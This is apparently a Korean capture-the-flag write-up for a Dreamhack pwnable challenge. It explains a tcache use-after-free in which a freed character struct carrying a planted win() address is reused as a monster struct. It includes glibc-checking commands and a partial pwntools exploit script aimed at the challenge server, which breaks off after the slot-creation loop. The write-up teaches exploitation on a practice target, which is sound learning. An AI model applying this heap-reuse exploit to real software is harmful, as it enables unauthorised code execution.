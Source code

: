한 가지 눈여겨볼 사실은 `character` 구조체와 `monster` 구조체의 크기가 0x8 바이트 정도밖에 차이가 나지 않는다는 것이다. 또한 구조체를 `free()`하는 과정에서 어떠한 초기화도 진행하지 않는다. 따라서 해당 바이너리가 메모리 할당 과정에서 `ptmalloc2`를 사용한다면, `character.profile`의 상위 0x8 바이트 위치(메모리에 올라가는 위치 기준)에 `win()` 함수를 덮어쓰고 `free()`한 후 `monster` 구조체를 할당할 때 `tcache`에서 초기화되지 않은 `character`의 청크를 그대로 사용하게 된다. 이를 통해서 `monster`의 스킬로 `win` 함수를 트리거할 수 있다. 단, `monster` 구조체 초기화를 우회해야 하는데, 이는 `is_null` 함수 구현의 실수를 이용하면 구조체 초기화를 진행하지 않으므로 우회가 가능하다. 최종적인 익스플로잇 과정은 다음과 같다.  
1. `Character` slot 3개를 생성한다.
2. `Character` slot 3개 모두 캐릭터 초기화. 단, name을 채우고, profile 영역의 상위 0x8 바이트에 `win()` 함수의 주소를 덮는다.
3. `Character` slot 3개를 모두 삭제(free)한다.
4. `Monster`를 생성한다. 이때 `tcache`의 청크를 가져와 할당한다.
5. `is_null()` 함수를 통해 몬스터 초기화를 우회한다.
6. `slay_monster()`를 진행하여, `win()` 함수를 트리거 한다.
### Exploitation Steps
``` sh
$ ldd ./chall
        linux-vdso.so.1 (0x00007ffdbbdee000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f44b7bfd000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f44b7e30000)
```
libc.so.6가 출력되므로, 해당 바이너리는 GNU C 라이브러리 (glibc)를 사용한다. 최신 버전의 glibc는 기본적으로 ptmalloc2를 힙 할당자로 사용하는 것으로 알고 있다.  
``` sh
$ readelf -s ./chall | grep malloc
    52: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND malloc@GLIBC_2.2.5
$ nm -D ./chall | grep malloc
                 U malloc@GLIBC_2.2.5
```
실제로 glibc를 사용하는 것을 확인할 수 있다. 여기서 `U` 또는 `UND`는 `'Undefined'` 심볼로, 이 바이너리 자체에는 없고 외부 라이브러리(이 경우 glibc)에서 가져와야 하는 함수라는 것을 의미한다.  
### payload
``` python
from pwn import *

p = remote('host1.dreamhack.games', 16078) 

win_addr = 0x0000000000401c42
target_info = b"Slashes enemies fast with deadly claws."
payload = b'A' * 0x28 + p64(win_addr)

def createSlot(slot) :
    p.sendlineafter(b'>> ', b'1') # pos
    p.sendlineafter(b'Choose your character slot(1~3): ', str(slot).encode()) # slot

def generateCharacter(slot) :
    p.sendlineafter(b'>> ', b'2') # pos
    p.sendlineafter(b'Choose your character slot(1~3): ', str(slot).encode()) # slot
    p.sendlineafter(b'Character name: ', b'good') # name
    p.sendlineafter(b'Character profile: ', payload) # profile

def deleteSlot(slot) :
    p.sendlineafter(b'>> ', b'3') # pos
    p.sendlineafter(b'Choose your character slot(1~3): ', str(slot).encode()) # slot

def generateMonster() :
    p.sendlineafter(b'>> ', b'4') # pos

def slayMonster() :
    p.sendlineafter(b'>> ', b'5')
    p.sendlineafter(b'Choose your character slot(1~3): ', b'1') # slot


# create Character slot
for i in range(1, 4) :
    createSlot(i)
```
